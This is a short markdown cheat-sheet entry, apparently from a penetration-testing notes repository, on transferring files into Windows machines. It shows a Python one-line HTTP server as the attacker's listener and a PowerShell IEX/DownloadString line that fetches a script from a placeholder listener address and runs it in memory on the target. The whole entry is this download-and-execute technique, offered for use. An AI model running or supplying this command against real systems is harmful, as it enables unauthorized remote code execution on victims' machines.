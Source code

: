 
## Methods

Methods to transfer file into windows boxes.

1.
### Create listener
```python
python3 -m http.server 80
```

### Windows
```powershell
IEX(New-Object Net.WebClient).downloadString('http://listner.ip.add/file_to_download.ps1')
```